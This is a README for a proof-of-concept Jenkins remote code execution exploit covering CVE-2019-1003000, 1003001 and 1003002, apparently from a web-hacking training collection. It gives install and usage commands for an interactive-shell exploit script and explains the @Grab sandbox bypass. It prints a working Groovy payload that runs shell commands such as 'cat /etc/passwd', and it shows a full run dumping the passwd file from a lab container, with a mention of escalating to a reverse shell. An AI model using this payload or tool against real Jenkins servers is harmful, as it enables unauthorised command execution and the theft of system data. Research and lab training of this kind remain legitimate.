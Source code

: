 > This is a forked version of actual POC [Here](https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc) Updated to work with python3 and added interactive shell feature.
# PoC: Jenkins RCE
##### SECURITY-1266 / CVE-2019-1003000 (Script Security), CVE-2019-1003001 (Pipeline: Groovy), CVE-2019-1003002 (Pipeline: Declarative)

> A proof of concept to allow users with Overall/Read permission and Job/Configure (and optional Job/Build) to bypass the sandbox protection and execute arbitrary code on the Jenkins master or node.

> **Update**: An article by [Orange Tsai](https://twitter.com/orange_8361) explaining the exploit chain utilizing CVE-2018-1000861 and CVE-2019-1003000 that bypass the need of Overall/Read permission for a pre-auth RCE:
http://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html


## Installation

```bash
git clone https://github.com/enciphers-team/WebHacking-Training-Resources.git
cd WebHacking-Training-Resources/cve-2019-1003000-jenkins-rce-poc
pip3 install -r requirements.txt
```


## Usage
Pass target url, job name, username/password credential, as arguments.
```bash
python exploit.py --url http://jenkins-site.com --job job_name --username your_user --password your_passwd
```

## Explanation

Quoted from [Red Hat Bugzilla - Bug 1667566](https://bugzilla.redhat.com/show_bug.cgi?id=1667566):

> A flaw was found in Pipeline: Declarative Plugin before version 1.3.4.1, Pipeline: Groovy Plugin before version 2.61.1 and Script Security Plugin before version 1.50. Script Security sandbox protection could be circumvented during the script compilation phase by applying AST transforming annotations such as @Grab to source code elements. Both the pipeline validation REST APIs and actual script/pipeline execution are affected. This allowed users with Overall/Read permission, or able to control Jenkinsfile or sandboxed Pipeline shared library contents in SCM, to bypass the sandbox protection and execute arbitrary code on the Jenkins master or node. All known unsafe AST transformations in Groovy are now prohibited in sandboxed scripts.

This PoC is using a user with Overall/Read and Job/Configure permission to execute a maliciously modified build script in sandbox mode, and try to bypass the sandbox mode limitation in order to run arbitraty scripts (in this case, we will execute system command).

As a background, Jenkins's pipeline build script is written in groovy. This build script will be compiled and executed in Jenkins master or node, containing definition of the pipeline, e.g. what to do in slave nodes. Jenkins also provide the script to be executed in _sandbox mode_. In sandbox mode, all dangerous functions are blacklisted, so regular user cannot do anything malicious to the Jenkins server.

However, because the build script is written in Groovy, we can use any class or function in Java packages (However in sandbox mode, dangerous built-in ones are blacklisted). In this case, we are using AST transforming annotations `@Grab` to make jenkins import arbitrary java packages from external maven repository. In this PoC, I use `ProcBuilder` class defined in `org.buildobjects:jproc:2.2.3` in order to run system shell command.

The payload is defined as below:
```
import org.buildobjects.process.ProcBuilder
@Grab('org.buildobjects:jproc:2.2.3')
class Dummy{ }
print new ProcBuilder("/bin/bash").withArgs("-c","cat /etc/passwd").run().getOutputString()
```

The script above will be compiled and executed in Jenkins master or node. After the job build is done, we can see the result of the shell command `cat /etc/passwd` in the job console output. Moreover, we can utilize this RCE to gain reverse shell, and literally _pwn_ the Jenkins server!


## Example Vulnerable Site

An example vulnerable jenkins can be found [Here](https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc) in Docker container format. After booting up, the container image will have a jenkins site hosted on port tcp/8080, with a regular user with Overall/Read + Job/Configure + Job/Build permission with credential `user1:user1`, and pipeline job with id `my-pipeline`.

```bash
$ cd sample-vuln
$ ./run.sh


$ cd ..
$ python exploit.py --url http://localhost:8080 --job my-pipeline --username user1 --password user1

Enter a command (or "exit" to quit): cat /etc/passwd
[+] Connecting to Jenkins...
[+] Crafting payload...
[+] Modifying job with payload...
[+] Putting job build to queue...
[+] Waiting for job to build...
[+] Restoring job...
[+] Fetching output...
[+] OUTPUT:
Started by user unknown or anonymous
Running in Durability level: MAX_SURVIVABILITY
[Pipeline] echo
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
jenkins:x:1000:1000:Linux User,,,:/var/jenkins_home:/bin/bash

[Pipeline] End of Pipeline
Finished: SUCCESS

Enter a command (or "exit" to quit):
```


## Reference
- [Jenkins Security Advisory 2019-01-08](https://jenkins.io/security/advisory/2019-01-08/)
- [Jenkins upstream patch](https://github.com/jenkinsci/script-security-plugin/commit/2c5122e50742dd16492f9424992deb21cc07837c)
- [Red Hat Bugzilla - Bug 1667566](https://bugzilla.redhat.com/show_bug.cgi?id=1667566)
- [Jenkins Script Security Plugin](https://wiki.jenkins.io/display/JENKINS/Script+Security+Plugin)
